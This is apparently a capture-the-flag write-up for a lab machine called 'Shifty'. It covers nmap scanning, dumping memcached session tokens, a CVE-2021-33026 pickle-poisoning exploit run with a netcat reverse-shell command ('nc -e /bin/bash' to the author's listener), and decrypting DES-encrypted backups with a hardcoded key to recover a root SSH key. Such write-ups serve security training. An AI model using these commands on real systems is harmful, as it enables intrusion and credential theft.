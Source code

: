 # Shifty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.59 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:57 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
5000/tcp  open   upnp
11211/tcp open   memcache
```

Memcache was open, of all things. I did a detailed `nmap` scan as well:

```
$ sudo nmap -p 80,5000,11211 -sC -sV --min-rate 4000 192.168.202.59           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:58 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      nginx 1.10.3
|_http-generator: Gatsby 2.22.15
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open  http      Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open  memcached Memcached 1.4.33 (uptime 150 seconds)
```

Interesting.&#x20;

### Web + Memcache Enum

Port 80 looked rather static:

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

There was no public exploit for this software either, so let's move on. Port 5000 looked way more promising:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We can login, and there's no additional functionality with this website. Viewing the requests, we can see that the login just assigned us a token:

<figure><img src="../../../.gitbook/assets/image (6) (16).png" alt=""><figcaption></figcaption></figure>

Moving to Memcache, we can dump it using `memcdump`. We instantly get loads of tokens:

```
$ memcdump --servers=192.168.202.59
<TRUNCATED>
session:8245fa94-7b27-4d99-a1c3-18a9f9db8e54
session:e90dd194-0be7-41f5-9362-a96431bea058
session:d5b40159-2bc4-4b57-91ae-2839ff3b040e
session:5cd631b0-49ba-4059-aae8-5dbae44f7c43
```

The last one was the same as above. I tried replacing the cookie within the request:

```http
GET /admin HTTP/1.1
Host: 192.168.202.59:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.202.59:5000/login
Connection: close
Cookie: session=hellothere
Upgrade-Insecure-Requests: 1

```

Interestingly, this cookie is stored in Memcached, indicating there's no cookie sanitisation there. Perhaps this could be poisoned?

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Pickling RCE

I googled 'memcache cookie poisoning exploit' and looked at all the results. This repo was one of them:

{% embed url="https://github.com/CarlosG13/CVE-2021-33026" %}

It looked exactly like what I needed. So I tested it after resetting the VPN and the machine.&#x20;

```
$ python3 cve-2021-33026_PoC.py --rhost '192.168.202.59' --rport '5000' --cmd 'nc -e /bin/bash 192.168.45.179 80' --cookie 'session:session=5cd631b0-49ba-4059-aae8-5dbae44f7c43'
 ____ ___ ____ _  ___     _____         
|  _ \_ _/ ___| |/ / |   | ____|        
| |_) | | |   | ' /| |   |  _|    _____ 
|  __/| | |___| . \| |___| |___  |_____|
|_|  |___\____|_|\_\_____|_____|        
                                        
 __  __ _____ __  __  ____    _    ____ _   _ _____ ____   
|  \/  | ____|  \/  |/ ___|  / \  / ___| | | | ____|  _ \  
| |\/| |  _| | |\/| | |     / _ \| |   | |_| |  _| | | | | 
| |  | | |___| |  | | |___ / ___ \ |___|  _  | |___| |_| | 
|_|  |_|_____|_|  |_|\____/_/   \_\____|_| |_|_____|____/  
                                                           
  ____   ___ ___ ____   ___  _   _ ___ _   _  ____  
 |  _ \ / _ \_ _/ ___| / _ \| \ | |_ _| \ | |/ ___| 
 | |_) | | | | |\___ \| | | |  \| || ||  \| | |  _  
 |  __/| |_| | | ___) | |_| | |\  || || |\  | |_| | 
 |_|    \___/___|____/ \___/|_| \_|___|_| \_|\____|
```

We would get a shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Encrypted Files --> Root SSH

There was a `backup.py` file within `/opt/backups`:

```python
import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('Usage: {} <file>'.format(sys.argv[0]))
    
    FILENAME = sys.argv[1]
    FILENAME = os.path.abspath(FILENAME)
    print('Backing up "{}"'.format(FILENAME))
    f = None
    try:
        f = open(FILENAME, 'rb')
        backup(FILENAME, f)
    except Exception as e:
        print('Could not open {}'.format(FILENAME))
        print(e)
    finally:
        if f:
            f.close()
```

In the `data` directory, there's also loads of encrypted files:

```
jerry@shifty:/opt/backups/data$ ls
0317ce62a75684cf0fcf8452a7fe5e5e919d1b730644bf16a304a919
11e3e83c5ea13aaed3b3ceb5edd72b9431ebc6ec2c447d412a0b7c7c
1a171f6f6491d3e4ca9cc0ca15a6c508c8815f6e29004bb29c0724d5
1cb607653518c3b1f08b1341322ead36dd8f93c3d2bfa23916fe28bd
1fd8c1281b186594d3d49f38cded4ce40faf862e9d409eb2a3a201cf
25a74de564e2aa81fbb8682f3fef798deda63f4cca65fd58901caecb
31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc
403c9401a0224bd4f483dedb33ed0bf37fbd93881783ea0e600a49ff
5b1c7de10787e87d4d868457b7bf828154f1d02f653f2b57bce17abc
65895ecf8b82b9fa742e8fabde0fd7e60f1258a9e7ba3c1e9367a3e0
7297aeb420d0530ccb52dcb7f905ecc8deffefc32d02691561a9172e
7824132f0f0cc6da1dce3763d50c38c2941d07f9648e34c6c9b9ccf8
8cd58cbefd50ef93f1a3b173456f9b6a09a7318ada378c3a49a980f2
9038291aaa6b222363fc78837b934d1e2f96bb7cfe11fd3d73149e72
92e8127d493e205bfbd8a9c0dd165da2154768cebafa1c752d9bf0dc
dd533e5634f95c6d86a4f37f01453f5326c80e58b8a01f0a4222c011
dfe0444a971a789bb405c54c270ae25460f5699319aad697c7fd35ee
f166b490169e7de5795a09305837198579daad4694e233d49b126d91
```

I made a copy of all these files within my home directory, and began decrypting it using `openssl`. From the python script and based on the documentation for `des`, the key would be `87629ae8` and the IV is all null bytes.&#x20;

Since the key is interpreted as a bytes type object, we need to convert it to hex, which would give `3837363239616538`.&#x20;

Then, we can decrypt the files:

{% code overflow="wrap" %}
```
jerry@shifty:~/backup$ openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in 3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc -out decrypt
```
{% endcode %}

Then, we can bulk decrypt all of these files using a `bash` for loop:

{% code overflow="wrap" %}
```bash
for FILE in *; do openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in $FILE -out decrypt$FILE; rm $FILE; done
```
{% endcode %}

Then, we can read all of the files. Within the decrypted files, there was a SSH private key:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (17) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
